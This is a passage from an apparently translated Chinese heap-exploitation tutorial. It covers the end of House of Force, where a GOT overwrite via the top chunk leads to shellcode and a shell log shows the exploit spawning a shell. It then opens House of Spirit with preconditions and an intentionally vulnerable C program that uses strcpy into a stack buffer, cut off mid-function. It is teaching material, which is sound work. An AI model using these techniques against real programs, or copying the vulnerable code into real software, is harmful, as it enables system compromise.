 在第[4]行:  

* 由于第三行中的top chunk指向0x8049850,一个256字节的新的内存分配请求会让’glibc malloc’返回0x8049858 ，其会被拷贝到buf3中

在第[5]行:  

* 将buf1的地址拷贝到buf3中，导致GOT覆盖。因此对free的调用(第[6]行)就会导致shellcode的执行。

用攻击者的命令行参数再执行上述漏洞程序就会导致shellcode执行，如下所示:  

``` BASH
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/hof$ gcc -g -z norelro -z execstack -o vuln vuln.c -Wl,--rpath=/home/sploitfun/glibc/glibc-inst2.20/lib -Wl,--dynamic-linker=/home/sploitfun/glibc/glibc-inst2.20/lib/ld-linux.so.2
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/hof$ gcc -g -o exp exp.c
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/hof$ ./exp 
$ ls
cmd  exp  exp.c  vuln  vuln.c
$ exit
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/hof$
```
保护: 至今为止，还没有针对这项技术的保护措施。所以就算用最新的glibc编译，这项技术也可以帮助我们成功利用堆溢出。  

## 0X03 House of Spirit

通过这项技术，攻击者欺骗’glibc malloc’返回一个在栈(不是堆)中的chunk。这就允许攻击者覆盖存储在栈中的返回地址。  

假设条件: 由于不是所有的堆溢出漏洞程序都能被house of spirit技术成功利用，以下是成功利用的假设条件  

* 缓冲区溢出覆盖一个变量，变量中含有’glibc malloc’返回的chunk地址  
* 上述的chunk必须要被释放。攻击者必须控制被释放chunk的size。将chunk的size等于下一个分配的chunk的size。  
* 分配一个chunk
* 用户输入必须拷贝到上述分配的chunk中

漏洞程序: 漏洞程序满足上述假设条件  

``` C
/* vuln.c
House of Spirit vulnerable program
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
void fvuln(char *str1, int age)
{
   char *ptr1, name[44];
   int local_age;
   char *ptr2;
   [1]local_age = age; /* Prereq 2 */
   [2]ptr1 = (char *) malloc(256);
   printf("\nPTR1 = [ %p ]", ptr1);
   [3]strcpy(name, str1); /* Prereq 1 */
   printf("\nPTR1 = [ %p ]\n", ptr1);
   [4]free(ptr1); /* Prereq 2 */
   [5]ptr2 = (char *) malloc(40); /* Prereq 3 */
   [6]snprintf(ptr2, 40-1, "%s is %d years old", name, local_age); /* Prereq 4 */
   printf("\n%s\n", ptr2);
}
int main(int argc, char *argv[])
{
   int i=0;
   int stud_class[10];  /* Required since nextchunk size should lie in between 8 and arena's system_mem. */
   for(i=0;i<10;i++)
        [7]stud_class[i] = 10;
   if (argc == 3)
      fvuln(argv[1], 25);
   return 0;
```